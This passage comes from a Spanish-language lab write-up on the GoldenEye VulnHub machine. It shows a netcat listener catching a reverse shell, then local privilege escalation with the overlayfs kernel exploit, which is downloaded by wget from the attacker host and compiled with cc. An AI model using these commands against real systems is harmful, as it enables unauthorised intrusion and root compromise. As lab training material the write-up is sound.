 
```bash
❯ sudo nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.21] 55651
bash: cannot set terminal process group (1114): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$
```

## Escalación de privilegios

El sistema es Ubuntu 14.04, el cual está expuesto a muchas vulnerabilidades, vamos a usar `overlayfs`.

[Exploit](https://www.exploit-db.com/exploits/37292)

El problema que tenemos, es que no existe `gcc` para compilar en la máquina víctima, pero sí `cc` que es un compilador más viejo, el cual usaremos.

Debemos cambiar en el exploit la línea que llama a `gcc`{: .filepath} y reemplazarla por `cc`{: .filepath}.

![cc](/assets/img/commons/vulnhub/GoldenEye1/cc.png){: .normal }

Nos transferimos el exploit, lo compilamos y ejecutamos, obtenemos root.

```bash
www-data@ubuntu:/tmp$ wget 10.11.12.10/37292_cc.c
--2025-02-18 10:44:37--  http://10.11.12.10/37292_cc.c
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5120 (5.0K) [text/x-csrc]
Saving to: '37292_cc.c'

100%[======================================>] 5,120       --.-K/s   in 0s

2025-02-18 10:44:37 (903 MB/s) - '37292_cc.c' saved [5120/5120]

www-data@ubuntu:/tmp$ cc 37292_cc.c -o ofs
37292_cc.c:94:1: warning: control may reach end of non-void function
      [-Wreturn-type]
}
^
37292_cc.c:106:12: warning: implicit declaration of function 'unshare' is
      invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292_cc.c:111:17: warning: implicit declaration of function 'clone' is invalid
      in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
```